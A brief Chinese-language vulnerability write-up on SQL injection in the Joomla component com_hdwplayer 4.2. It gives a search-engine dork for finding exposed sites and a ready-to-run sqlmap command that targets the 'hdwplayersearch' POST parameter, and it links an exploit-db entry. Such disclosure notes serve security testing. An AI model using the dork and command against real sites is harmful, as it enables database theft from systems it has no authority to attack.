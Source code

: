 # Joomla com_hdwplayer 4.2 - 'search.php' sql注入

### 一、漏洞简介

关键字:`inurl:"index.php?option=com_hdwplayer"`

### 二、漏洞影响

com_hdwplayer 4.2

### 三、复现过程


```python
python ./sqlmap.py -u "http://127.0.0.1/joomla/index.php" --method=POST --random-agent --data "option=com_hdwplayer&view=search&hdwplayersearch=xxx" --level=5 --risk=3 --dbms=mysql -p hdwplayersearch
```

**参考链接**

https://www.exploit-db.com/exploits/48242